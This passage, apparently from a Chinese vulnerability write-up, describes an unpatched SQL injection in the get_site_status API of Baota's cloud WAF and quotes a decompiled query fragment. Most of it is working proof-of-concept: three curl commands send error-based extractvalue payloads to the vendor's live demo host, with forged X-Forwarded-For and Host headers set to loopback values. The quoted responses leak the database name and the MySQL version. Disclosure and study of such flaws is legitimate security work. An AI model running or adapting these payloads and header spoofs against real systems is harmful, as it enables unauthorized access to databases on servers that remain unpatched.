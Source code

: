 ```
  SUM(spider_360) as spider_360,
  SUM(spider_sogou) as spider_sogou,
  SUM(spider_other) as spider_other,
  SUM(ip_count) as ip_count,
  SUM(pv_count) as pv_count,
  SUM(uv_count) as uv_count
   FROM `request_total` WHERE `server_name`=']] .. slot1 .. "' AND `date`='" .. os.date("%Y-%m-%d") .. "'") ... 此处省略若干代码 return Public.get_return_state(true, slot6)end
```  
  
这段代码位于 /cloud_waf/nginx/conf.d/waf/public/waf_route.lua 文件中，源文件是 luajit 编译后的内容，反编译一下即可看到源码  
  
这段逻辑就在上文提到的 **get_site_status** API 中，slot1 变量就是 server_name 参数。原理很简单，server_name 参数没有做任何校验就直接带入了 SQL 查询。  
  
宝塔官网还没有修复这个问题，还是拿宝塔官网为例，试试以下命令：  
```
curl "http://btwaf-demo.bt.cn/get_site_status?server_name='-extractvalue(1,concat(0x5c,database()))-'"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  
响应如下  
```
{"status":false,"msg":"数据查询失败: XPATH syntax error: '\\btwaf': 1105: HY000."}

```  
  
从响应来看已经注入成功，通过 updatexml 的报错成功的爆出了库名叫 **btwaf**  
  
继续执行以下命令：  
```
curl "http://btwaf-demo.bt.cn/get_site_status?server_name='-extractvalue(1,concat(0x5c,version()))-'"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  
响应如下  
```
{"status":false,"msg":"数据查询失败: XPATH syntax error: '\\8.1.0': 1105: HY000."}

```  
  
从响应来看，mysql 版本是 8.1.0  
  
在继续执行以下命令  
```
curl "http://btwaf-demo.bt.cn/get_site_status?server_name='-extractvalue(1,concat(0x5c,(select'hello,world')))-'"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'

```  
  
响应如下  
```
{"status":false,"msg":"数据查询失败: XPATH syntax error: '\\hello,world': 1105: HY000."}

```  
  